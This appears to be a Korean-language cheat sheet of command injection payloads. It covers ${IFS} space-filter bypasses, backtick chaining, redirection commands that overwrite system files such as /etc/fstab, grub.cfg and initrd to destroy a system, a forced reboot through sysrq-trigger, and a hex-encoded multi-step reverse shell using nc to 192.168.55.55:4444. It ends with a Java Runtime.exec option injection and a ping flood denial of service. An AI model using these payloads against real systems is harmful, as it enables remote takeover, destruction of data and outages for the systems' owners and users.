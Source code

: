 # COMMAND INJECTION
공백 우회  
|/usr/bin/touch${IFS}/opt/test_injection  

---------------------------------------------------
and, or ,; 우회  

\`id>/opt/test_injection\`  

--------------------------------------
라다이렉션만을 이용하여 시스템 파괴  

id>/lib/modules/*/kernel/drivers/usb/storage  
id>/etc/fstab  
id>/etc/mtab  
id>/etc/inittab  
id>/boot/grub/grub.cfg  
id>/boot/initrd.img-$(uname -r)  
id>/etc/systemd/  
echo 'b'>/proc/sysrq-trigger  
<<<b>/proc/sysrq-trigger  
root일 경우만 덮어씌울수있음.  

--------------------------------------------  
;sleep 5 # 해당 명령어가 먹힐 경우 리버스tcp 가능  
;mkfifo${IFS}/opt/f;  
;printf${IFS}'nc\x20192.168.55.55\x204444'>/opt/b;  
;printf${IFS}'\x20</opt/f\x7Cbin/sh>/opt/f'>/opt/c;  
;cat${IFS}/opt/b${IFS}/opt/c>/opt/t;  
;chmod${IFS}777${IFS}/opt/t;  
;./opt/t;  

------------------------------------------

RUNTIME 함수에서 쉘 명시하지 않을 시     
다중 명령어를 지원하지 않아도  
악의적인 명령어 옵션을 주입하여 공격 가능  
공격자의 입력 값 && echo world
Runtime.getRuntime().exec("echo Hello && echo World");  
그러나 악의적인 옵션은 주입 가능 ping -c 9999 -s 65507 IP  //DOS 공격  
